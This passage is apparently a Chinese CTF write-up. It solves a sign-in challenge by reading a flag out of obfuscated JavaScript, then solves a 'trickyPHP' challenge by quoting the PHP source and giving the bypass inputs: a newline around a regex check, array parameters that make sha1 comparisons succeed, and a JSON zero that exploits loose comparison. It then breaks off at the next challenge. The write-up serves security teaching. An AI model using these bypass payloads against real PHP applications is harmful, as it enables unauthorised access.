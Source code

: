 什么？肉眼看flag太难了？解决方法包括但不限于以下：  
- 买个好用的眼镜或者找准时机OCR一下flag  
- 把被加密的JS放到[在线JS压缩网站](https://tool.css-js.com/)解密得到flag变量名 查看t变量的值
- 通过window变量查看所有变量的值 其中就有flag

相信大家可以轻松完成签到
> flag{Ev3ry_0ne_1ove5_baNaNa_exCept_fu*k1n9_js}

### trickyPHP
给了源码，来一点点过关。第一关是需要say中包含JOIN_COMPASS_CTF#，但是首先会正则卡掉COMPASS。   
```php
$say = preg_replace('/^(.*)COMPASS(.*)$/', '${1}<!--nope-->${2}', $_GET['say']);
    if (preg_match('/JOIN_COMPASS_CTF#/', $say)) {
        echo "Welcome to COMPASS CTF, continue hacking!<br>";
    } else {
        echo 'Bad hacker!';
    }
```
换行绕过正则，用url编码避免#被解析为html标签：  
>  ?say=%0aJOIN_COMPASS_CTF%23

第二关需要post两个内容不同但是sha1一样的内容
```php
if ($_POST['user'] == $_POST['pwd']) {
    echo 'You cant do that!';
} else if (sha1($_POST['user']) === sha1($_POST['pwd'])) {
    echo 'Great, you almost get there!<br>';
} else {
    die("Not same, sorry.");
}
```
很容易想到碰撞，但是在php中有更简单方法：传入非字符串内容，sha1会返回失败，造成false===false，比如传入内容不同的两个数组。  
> user[]=1&pwd[]=2

第三关解码json格式的flag，然后和flag弱比较  
```php
$leve1_3 = json_decode($_POST['flag']);
if ($leve1_3->result == $flag) {
    echo "Congratulations, you won your flag:&nbsp &nbsp " . $flag;
} else {
    echo "So close!!!";
}
```
弱比较时，我们可控的变量在左边，可以直接令其为0使得条件恒成立。  
> flag={"result":0}

组合起来就是
> GET("http://xx.xx/?say=%0aJOIN_COMPASS_CTF%23")   
> user[]=1&pwd[]=2&flag={"result":0}

### Life Restart
看一下文件结构  